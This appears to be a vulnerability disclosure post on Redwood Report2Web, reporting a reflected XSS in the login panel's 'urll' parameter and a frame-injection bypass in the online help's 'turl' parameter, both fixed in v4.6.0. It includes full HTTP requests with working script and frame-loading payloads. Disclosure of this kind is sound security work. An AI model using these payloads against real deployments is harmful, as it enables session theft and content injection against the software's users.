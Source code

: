 ```yaml
---
layout: post
title: Redwood Report2Web XSS and Frame injection
categories: cve
---
```


[Report2Web](https://www.redwood.com/report-distribution) v4.3.4.5 and v4.5.3 are vulnerable to XSS. v4.3.4.5 is also vulnerable to frame injection. Both issues are fixed in v4.6.0.

## Report2Web Login Panel XSS
The value of the `urll` parameter is getting reflected without an sanitization, allowing a remote attacker to inject javascript code to the victim's browser.

Request:
```
GET /r2w/singIn.do?urll=%22%3E%3Cscript%3Ealert(document.cookie)%3C/script%3E HTTP/1.1
Host: [HOST]
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:84.0) Gecko/20100101 Firefox/84.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en,en-US;q=0.7,de;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Cookie: JSESSIONID=F291E04B316ED2DF72623ACEA8D952CA; r2wctg=3
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
```

Response:
```
...
<form name="form" action="signIn.do" method="post" onsubmit="return handleSubmit(this);">
 <input type="hidden" name="id" value="" />
 <input type="hidden" name="language" value="en" />
 <input type="hidden" name="urll" value=""><script>alert(document.cookie)</script>" />
 
<div class="outer">
...
```

## Report2Web Online Help Frame Injection
The `turl` parameter takes a local path as input and diplays it's content inside a frame, e.g. `?turl=/local/path/doc.html`. You can bypass the protection by using `\/hostname.tld` which the browser translates to `//hostname.tld` and then to `https://example.com`, loading a malicious website inside the frame, leading to vulnerabilities like content injection and XSS.

Request:
```
GET /r2w/help/Online_Help/NetHelp/default.htm?turl=\/example.com HTTP/1.1
Host: [HOST]
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:84.0) Gecko/20100101 Firefox/84.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en,en-US;q=0.7,de;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
```

Response:
```
...
<frame id="right" name="right" title="Topic text" src="\/example.com">
...
```
